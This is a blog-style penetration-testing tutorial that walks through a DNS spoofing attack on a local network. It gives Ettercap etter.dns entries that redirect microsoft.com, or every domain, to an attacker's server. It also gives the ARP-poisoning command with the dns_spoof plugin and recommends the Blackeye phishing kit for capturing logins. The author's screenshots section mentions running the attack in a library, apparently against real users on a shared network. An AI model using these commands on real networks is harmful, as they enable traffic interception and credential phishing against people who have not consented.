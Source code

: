 ```yaml
---
title: 'Penetration Testing : 流量捕获之DNS缓存攻击'
date: 2019-11-25 22:25:01
tags: [Penetration Testing,Kali Linux,Python]
---
```



## intro
```python
# author: huangyuhui
# date: november 27,2019
# envir: 5.2.0-kali2
# desc: the detailed steps about the dns attack
# repo address: https://github.com/yubuntu0109/penetration-testing-learning
# tested on the mobile browser: [vivo],[xiaomi],[huawei],[quark],[firefox],[qq],[360],[sogou],,
```


### GUI: the detailed steps about the dns attack
```python
'''
[step one]: customize the dns configuration infos of Ettercap
>>> vim ./etc/ettercap/etter.dns
----------------------------------------------------------------------------------------------
eg: modify the dns configuration infos as follow,let it redirect to specified service address
==============================================================================================
microsoft.com			A		xxx.xxx.xxx.xxx (your service ip)
.*microsoft.com			A		xxx.xxx.xxx.xxx
www.microsoft.com		PRT  	xxx.xxx.xxx.xxx
----------------------------------------------------------------------------------------------
ex: add the new configuration infos as follow if you want intercept all of websites
==============================================================================================
*		A		xxx.xxx.xxx.xxx (your service ip)
*		PTR 	xxx.xxx.xxx.xxx
----------------------------------------------------------------------------------------------


[step two]: MitM Attack(arp poisoning) and DNS spoofing by the penetration testing tool of Ettercap
>>> ettercap -G 


[step three]: customize the index page and start the local server of Apache
>>> vim ./var/www/html/index.html
>>> /etc/init.d/apache2 start	# or use this command >>> service apache2 start

(recommend)use the penetration testing tool of Blackeye to replace the service of Apache or others..
>>> https://github.com/YUbuntu0109/blackeye
--------------------------------------------------------------------------------------------------------
becaues you have modified the dns configuraiton infos above,so please test on this option: [16]Microsoft
--------------------------------------------------------------------------------------------------------


[step four]: check the specified service ip with this command
>>> nslookup www.microsoft.com
'''
```


### (RECOMMEND)COMMAND: the detailed steps about the dns attack
```python
'''
[step one]: it's same as the first step above
>>> vim ./etc/ettercap/etter.dns


[step two]: MitM attack(arp poisoning) and dns spoofing by the penetration testing tool of Ettercap
the ip address between the target and the gateway is unordered
>>> ettercap -i <iface> -Tq -M arp:remote -P dns_spoof /[target1]// /[target2]//


[step three]: it's same as the third step above and the penetration tool of Blackeye is recommended
>>> git clone https://github.com/YUbuntu0109/blackeye


[step four]: it's same as the fourth step above
>>> nslookup www.sitename.com
'''
```


### moments
*a simple dns spoofing with phishing~*

![ ](Penetration-Testing-流量捕获之DNS缓存攻击/penetration-testing_moments_dns-spoofing-with-phishing.png)

*😅 a simple penetration testing in libaray which is so embarrassing . . .*

![ ](Penetration-Testing-流量捕获之DNS缓存攻击/penetration-testing_moments_dns-spoofing-in-library.png)


### recommended tools
* Ettercap: https://github.com/Ettercap/ettercap
* Blackeye: https://github.com/thelinuxchoice/blackeye
* DNS spoofer: https://github.com/DanMcInerney/dnsspoof
* Simple Python DNS Spoofer With Scapy : https://github.com/Sha2ow-M4st3r/DNSpoofer
